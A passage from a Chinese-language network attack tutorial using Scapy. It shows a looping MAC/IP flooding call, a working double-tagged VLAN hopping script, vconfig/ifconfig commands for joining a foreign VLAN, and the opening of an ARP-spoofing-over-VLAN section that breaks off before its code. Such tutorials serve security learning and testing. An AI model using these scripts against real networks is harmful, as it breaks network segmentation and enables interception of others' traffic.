 ```
sendp(packet, iface=dev, loop=1)

```

`RandMAC`和`RandIP`负责随机地产生地址当中的每一个字节。其余的则由`sendp()`函数的循环参数完成。

0x05 VLAN Hopping
=================

* * *

因为`VLAN`不具备安全特性，一方面标记`VLAN`取决于包含`VLAN id`的数据包头部，使用`Scapy`可以很容易创建这样的数据包。现在让我们的电脑连接到`VLAN1`，并且尝试去`ping VLAN2`上的其他主机。

```
#!/usr/bin/python    

from scapy.all import *    

packet = Ether(dst="c0:d3:de:ad:be:ef") / \
                Dot1Q(vlan=1) / \
                Dot1Q(vlan=2) / \
                IP(dst="192.168.13.3") / \
                ICMP()    

sendp(packet)

```

首先我们设定在数据包的头部当中，包含我们的`VLAN`标记，再加上一个目的主机地址。交换机将会移除第一个标记，并不决定如何处理该数据包，当它看到第二个标记`VLAN id 2`的时候，则决定转发到这个`vlan`。如果交换机连接到其他通过堆叠启用的`VLAN`交换机，这种攻击只会是成功的，否则它们就是使用的基于端口的`VLAN`。

0x06 Let’s Play Switch
======================

* * *

`Linux`可以运行在许多嵌入式网络设备上；因此凭借`Linux`操作系统，人们可以把自己的电脑变成一台功能齐全的`VALN`交换机，这并不令人惊奇。你只需要`vconfig`这种工具就够了。在根据你的操作系统安装所需的数据包后，通过以下的命令，你可以将你的主机加入到另一个`VLAN`环境中。

```
vconfig add eth0 1

```

然后你必须记住启动新设备，并给它一个`VLAN`网络中的`IP`地址。

```
ifconfig eth0.1 192.168.13.23 up

```

0x07 ARP Spoofing Over VLAN Hopping
===================================

* * *

`VLAN`会限制对同一`VLAN`的端口的广播流量，因此我们不能在默认情况下应对所有的`ARP`请求，就像在第一个`ARP spoofing`例子中看到的那样，必须每隔几秒就向受害者告诉我们的`MAC`地址。除了我们对每个数据包进行了标记和加之的目的`VLAN`，下面的代码是通用的。
